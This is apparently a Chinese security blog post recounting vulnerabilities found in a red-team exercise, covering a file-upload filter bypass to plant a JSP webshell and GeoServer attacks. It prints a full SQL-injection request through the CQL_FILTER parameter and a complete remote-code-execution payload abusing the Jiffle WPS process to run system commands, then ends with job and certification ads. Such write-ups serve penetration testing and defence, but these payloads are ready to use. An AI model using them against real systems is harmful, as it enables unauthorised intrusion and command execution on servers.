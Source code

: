 #  记录某次攻防演练中几个有趣的漏洞   
 WIN哥学安全   2024-06-17 22:55  
  
免责声明  
  
由于传播、利用本公众号所发布的而造成的任何直接或者间接的后果及损失，均由使用者本人承担。LK  
安全公众号及原文章作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢大家！！！  
  
又到了hw的季节，最近接连打了好几场比赛，想着公众号好久没更新技术文了，就总结了一些比较有趣的漏洞分享给大家，大佬勿喷。  
  
案例1 文件上传绕过限制  
  
最近在测试某系统的过程中，摸到了Swagger，泄露了蛮多接口，也很顺利地找到一处上传点。惊喜的是，系统本身并未对上传接口做后缀限制。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1U4j6sfR5GEAWXh8gH79W7mHHYuopbgib6iaWCGZoHzGtibEictVJnDic0Xvw/640?wx_fmt=png&from=appmsg "")  
  
尝试jsp、jspx、jspf等后缀，会报403，但是对于jspb这类不会被正常解析的后缀却能成功上传。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UD5on9UrcQZ3utpHicibzGseLnEjm9UL1LVY0Ot0LIfEcv8ZrnkVTiaysA/640?wx_fmt=png&from=appmsg "")  
  
于是尝试对文件后缀进行Fuzz，发现当文件后缀末尾加上俩正斜杠即可绕过检测，并被正常解析。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UK4bKvOBQeibVv5vjnZFc0swMpyhMhVLljdMU26sP2IHPTnNEJpPXnRg/640?wx_fmt=png&from=appmsg "")  
  
后续就是解决文件内容检测的问题。对于常规的jsp标签内容限制的很死，例如 <% ... %> 标签，只要标签里面出现正常的语句（带分号），就会被ban掉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UEnf4ibcXxRPeTepqs3Xs1ZPW8M8XiayicDwsfVfMOZCRckVTvH1CFicstg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1Uye5MoerXD0XQuF2bcw3xlXYqicjVpTfZiaX7wsJM7CAqFeuozmMlTlGQ/640?wx_fmt=png&from=appmsg "")  
  
到这就已经没啥思路了，突然翻到了yzddmr6师傅的一篇博客：https://yzddmr6.com/posts/jsp-webshell-upload-bypass/ ，文章中提到了利用el表达式和jspx命名空间绕过的方法。常规的el表达式不会被ban，但出现太过复杂的利用语句就会被ban。奈何本人太菜，也尝试了各种绕过方法，均以失败告终。思路一：el表达式绕过。jsp是默认解析el表达式的，并且在没有jsp标签的情况下也可以直接执行，这样就可以绕过jsp的限制。思路二：jspx利用命名空间绕过。因为jspx实际上是jsp的xml写法，所以继承了xml的所有特性，例如cdata跟html实体编码等，同样也继承了命名空间的特性。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UKUNMtLg52XxXE2lcw8tCdn1ISsnMbRQ6HhMdnqOGlyPs6fwDXr4Yog/640?wx_fmt=png&from=appmsg "")  
  
接着就是考虑jspx命名空间绕过的方式，对于如下语句，会直接被拦截。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UfDkJ8N64kaYQlXg7UHugOlpzdBVwIB4JoKsibNXZniaXWh4dTythV7cA/640?wx_fmt=png&from=appmsg "")  
  
但是文章中也提到了对于这种方法，其命名空间的名字是可以自定义的。将命名空间名称修改过后竟然奇迹般地过了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UtDrtR2rfswr2Z0qs9nsdVHqUSKxsQn8aKzdrlwgZ23WrqKsLqiaBgQA/640?wx_fmt=png&from=appmsg "")  
  
直接通关。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UV76Dh8u8la7asOfLJ0icFtF3duzb00b12zbTSgRnND8yLrkByV2LhtA/640?wx_fmt=png&from=appmsg "")  
  
对于 Runtime.getRuntime().exec() 这类语句也不再进行拦截。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7jF0ib4Xlkia1FhPIicLjqPs1UXS6T8y6AISamcCkSOfcthicCDxuzpb56XK6cOx6mWMjnwxxFW8UtN0A/640?wx_fmt=png&from=appmsg "")  
  
后续未进行过多测试，证明危害存在即可。  
案例2 geoserver系列漏洞最近打比赛发现遇到这个系统的频率还挺高的，看了一下刚好前几个月爆出了一些新的漏洞，就顺便也总结一下。这次比赛遇到的是geoserver的SQL注入，关于这个漏洞的打法如下在进行SQL注入漏洞复现之前，首先需要获取地理图层列表信息，这个信息是SQL注入payload中一个必需的参数。通过以下路径访问，获取地理图层列表信息。  
```
http://192.168.254.170:9999/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities
```  
  
<Name>标签中的信息，就是地理图层列表。这里选择ne:populated_places作为地理图层列表信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSukul8jOD02bh4yyEIolqHtGAFIBbUpGJ2MM7bOGXCnuueIFR2GOnxsQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
接着访问以下路径，获取图层的属性名称  
```
http://192.168.254.170:9999/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=ne:populated_places&maxFeatures=1&outputFormat=json
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSuH58ODzYA3kr5zKp5bLYSiawaL0SibicNCK13QrQLiapICkPuw0icJdNw3aQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
最终payload如下：  
```
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=gwpd:chinamap11&CQL_FILTER=strStartsWith%28Vatican City%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+INTEGER%29%29+--+%27%29+%3D+true HTTP/1.1Host: 192.168.254.170:9999Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=1p6q6kkghu4bg1x04chtdvm369Connection: close
```  
  
查询到了数据库的版本信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshkb2yHrkxpUqsh6icUm8QSubxq4qm7rHxUEoLQvKD2lIjf9uZp0YWHgMicWc8G9KwyegHXYwmoWricA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
实战中手动拼接太繁琐，直接github找个项目跑一遍再手打。同时前段时间也爆出了geoserver存在远程命令执行漏洞，在这里也给出poc，但是似乎存在漏洞的资产不太多2333访问/geoserver/ows这个接口，如果出现下图这种情况可能有戏。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aibjdZFMRy7gJsuOs1PGNb4ogVU0OAYovgKa8mpuPOxbiae3wRVMicgbQgLIHStkhURiaBfVK05dKKNfoBH7sws7zQ/640?wx_fmt=png&from=appmsg "")  
```
POST /geoserver/wms HTTP/1.1
Host: xxxxxxxxx
Content-Type: application/xml
Accept-Encoding: gzip, deflate

<?xml version="1.0" encoding="UTF-8"?>
  <wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
    <ows:Identifier>ras:Jiffle</ows:Identifier>
    <wps:DataInputs>
      <wps:Input>
        <ows:Identifier>coverage</ows:Identifier>
        <wps:Data>
          <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
        </wps:Data>
      </wps:Input>
      <wps:Input>
        <ows:Identifier>script</ows:Identifier>
        <wps:Data>
          <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
        </wps:Data>
      </wps:Input>
      <wps:Input>
        <ows:Identifier>outputType</ows:Identifier>
        <wps:Data>
          <wps:LiteralData>DOUBLE</wps:LiteralData>
        </wps:Data>
      </wps:Input>
    </wps:DataInputs>
    <wps:ResponseForm>
      <wps:RawDataOutput mimeType="image/tiff">
        <ows:Identifier>result</ows:Identifier>
      </wps:RawDataOutput>
    </wps:ResponseForm>
  </wps:Execute>
```  
  
  
Tips:  
   
  
  
HVV招聘  
：  
投递到-->  
  
```
https://send2me.cn/s4blZRtp/RSm7tIGEY-eiTg
```  
  
  
考证咨询  
：  
全网最低最优惠报考NISP/CISP/CISSP/PTE/PTS/IRE/IRS  
等证书，后台回复“好友”加V私聊。  
  
  
往期推荐  
  
[记渗透某cms到代码审计拿权限](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247500369&idx=1&sn=3e2d9fba710d06e1550755a4e8cbea18&chksm=c0c863a5f7bfeab3fb0f7dabcfbe5be6c76fe16ee76f485628b2701ea8f6e149a59f1e5016a5&scene=21#wechat_redirect)  
  
  
[实战｜对一个随身WIFI设备的漏洞挖掘](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247500351&idx=1&sn=595b68a89697cc5f32af381a57aefc49&chksm=c0c863cbf7bfeadd7537f52fd90d1685533a5503fbb276fd5eb412bd20744fe172c4d9c4c1bb&scene=21#wechat_redirect)  
  
  
[速看、紧急、震惊……谁在制造网安圈“标题党”文章？——网安从业者和"紧急,震惊"的关系](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247500361&idx=1&sn=06ad9d55637c2bf187a62a4ba6413e99&chksm=c0c863bdf7bfeaabff0412662cdada65227b908e54f6fa504f93aa2df1dff7df122199034c32&scene=21#wechat_redirect)  
  
  
[一个安服仔的自白——我还会留下来吗？](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247500340&idx=1&sn=82a2640f2372699a469ed12e17bd8c5a&chksm=c0c863c0f7bfead6f6ae1081637b7ce097c0f0e61b76e5f201f83a8fedd2af1264a18f38b1d9&scene=21#wechat_redirect)  
  
  
[【2024HW招聘】最快当天面试，冲啊](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247500340&idx=2&sn=5062138a0f4c098ca6d3fe105b419700&chksm=c0c863c0f7bfead680dd577c45830e22161a742d50f1fc1855dc314660ced4788008ba5ff4ff&scene=21#wechat_redirect)  
  
  
[记一次梦游渗透从jmx到rce](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499984&idx=1&sn=00c302e1dccd5ce488d02d5c543dc6b1&chksm=c0c86124f7bfe8323351025e4e53410b411633b9d9abce30a1b8b4c54277eb86a017ca9010a5&scene=21#wechat_redirect)  
  
  
[记某高校渗透测试24-0506](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499949&idx=1&sn=0594a76a0d617ba4d759d00745fa9e82&chksm=c0c86159f7bfe84f26321989ebb8df832038a71acb0c296dbad4deb477d0a210953ee7e84e26&scene=21#wechat_redirect)  
  
  
[一键解密，网络安全神器现已问世！](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499937&idx=1&sn=0d3e8470745296f9662b20db1ae34ff5&chksm=c0c86155f7bfe843570e757b5e9e155af24cffc9e4b4200f1133990a82c1379ae3ecf4b031a1&scene=21#wechat_redirect)  
  
  
[一个IP Getshell续篇](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499918&idx=1&sn=5de7c447aaf6dc1a77988c2998e01de5&chksm=c0c8617af7bfe86c11ce2549f7b1bf851a09d61399d95392ea29d185154d86907b2b47bbc84d&scene=21#wechat_redirect)  
  
  
[实战|记一次女朋友学校漏洞挖掘](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499797&idx=1&sn=1d29cb3af3354861ebca4938c4655d46&chksm=c0c861e1f7bfe8f7a9dd4d13554174b2cf683d4cf8238a3d144695425ce5f223e822e070bab2&scene=21#wechat_redirect)  
  
  
[记一次对某学校APP渗透](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499788&idx=1&sn=32e40ad903289e36a826f43bbcbf0f44&chksm=c0c861f8f7bfe8eef5cc64f1072affe50f144f9fc199a1bcc604fd5570d89af03005f08c8631&scene=21#wechat_redirect)  
  
  
[红蓝对抗快速搭建基础设施平台](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499479&idx=1&sn=49ec494a4d031faab8bab164412c2cab&chksm=c0c85f23f7bfd6350db52c2128231a46ebaf65db80749d38f3749d3afc31d6d4287f7bb2feb5&scene=21#wechat_redirect)  
  
  
[【工具更新】最强渗透集成环境 V 5.0](https://mp.weixin.qq.com/s?__biz=MzkwODM3NjIxOQ==&mid=2247499447&idx=1&sn=f21e9aeea886f9cb4d7310f878ecb5c6&chksm=c0c85f43f7bfd65543de11232050790765df79a6c980ca786ba8adbdc64a1b66a9fe2bacb1cb&scene=21#wechat_redirect)  
  
  
